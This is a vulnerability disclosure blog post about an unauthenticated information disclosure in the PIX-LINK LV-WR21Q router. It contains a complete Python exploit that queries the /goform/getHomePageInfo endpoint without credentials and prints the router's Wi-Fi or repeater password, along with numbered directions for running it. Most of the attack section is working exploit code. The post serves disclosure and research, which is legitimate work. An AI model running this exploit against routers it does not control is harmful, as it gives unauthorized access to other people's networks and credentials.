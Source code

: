 ```yaml
---
layout: single
title: Unauthenticated Information Disclosure on PIX-LINK LV-WR21Q ("CVE requested")
excerpt: "I found a way to get the password of the wifi router when it's in normal mode or repeater mode without authenticating on the router gateway"
date: 2024-05-08
classes: wide
header:
  teaser: /assets/images/pix_link_cve/PIX-LINK.png
  teaser_home_page: true
  icon: #/assets/images/hackthebox.webp
categories:
  - CVE
tags:
  - Routers
  
---
```

Vulnerability Information:
- Product: PIX-LINK
- Model: LV-WR21Q
- Firmware Version: V109_109
- Vulnerability: Unauthenticated Information Disclosure
- Impact: <strong>Unauthorized Access to Wifi</strong>.
- Author: Red Team - Miguel Alves (@0xmupa), Fabrício Oliveira (xf5), Sérgio Charruadas

Hello friend, today I'm showing you an Information Disclosure fault in a PIX-LINK router.

First of all, you need to know that this fault will only be executed if you have cable access to the router or if the router Gateway is connected to the Internet.

Ps: It also works via wifi but what's the point of knowing the wifi password when you're already connected to it? hehehe.

<strong>Firmware Version:</strong>

![](/assets/images/pix_link_cve/firmware_version.png)

PoC:

1. Configure a router for ap (wifi) or repeater mode in the router gateway.
2. Run The Python Exploit below with the parameter wifi_password for AP configuration or repeater_password for Repeater configuration.
3. You'll have a password.

```
import requests
import sys

def make_request(host, endpoint):
    endpoints = {
        "wifi_password": "wifiBasicCfg",
        "repeater_password": "wifiRelay"
    }

    if endpoint not in endpoints:
        print("Usage: python3 pixlin_info_disclouse.py <host> <wifi_password/repeater_password>")
        return

    url = f"http://{host}/goform/getHomePageInfo?modules={endpoints[endpoint]}"

    try:
        response = requests.get(url)
        response.raise_for_status()
        
        print("Response:\n")
        print(response.text)
        
        password_key = 'wifiPwd' if endpoint == 'wifi_password' else 'wifiRelayPwd'
        password = response.json()[endpoints[endpoint]][password_key]
        print(f"\nPassword: {password}")
    except requests.exceptions.RequestException as e:
        print("Request failed:", e)

def main():
    if len(sys.argv) != 3:
        print("Usage: python3 pixlin_info_disclouse.py <host> <wifi_password/repeater_password>")
        return

    host, endpoint = sys.argv[1], sys.argv[2]
    make_request(host, endpoint)

if __name__ == "__main__":
    main()
```

The exploit is very simple, in a nutshell, it will look for the Host/IP and what information we want to access from the shell parameter, then it will look for the endpoint of the API that is destined to return that information and it will give us the answer.

Check the [POC Video](https://youtu.be/EcXSO12Oe0Q).


<strong>I wanted to save the world.</strong>

- Elliot Alderson

